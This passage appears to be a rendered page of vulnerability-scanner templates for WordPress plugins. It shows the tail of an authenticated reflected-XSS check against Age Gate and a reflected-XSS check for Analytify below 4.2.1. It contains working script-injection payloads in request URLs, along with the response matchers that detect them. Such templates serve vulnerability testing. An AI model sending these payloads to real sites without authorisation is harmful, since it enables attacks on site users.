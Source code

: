 - severity - high
- tags - xss,authenticated,age-gate,wpscan,wordpress,wp-plugin,wp
## Requests
### Step - 1
```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```
### Step - 2
```
GET /wp-admin/admin.php?page=age-gate&a%22%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: {{Hostname}}

```
### Matchers

**Type - word**
- part - body
- words
    1. ">\<script>alert(document.domain)\</script>
    2. Age Gate Restriction Settings
- condition - and

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# Analytify \<4.2.1 - Cross-Site Scripting
## Description
- WordPress Analytify 4.2.1 does not escape the current URL before outputting it back in a 404 page when the 404 tracking feature is enabled, leading to reflected cross-site scripting.

- severity - medium
- tags - wp,wordpress,analytify,wpscan,wp-plugin,xss
## Requests
- Method - GET
### URL
- {{BaseURL}}/aa404bb?a\</script>\<script>alert(/XSS/)\</script>
### Matchers
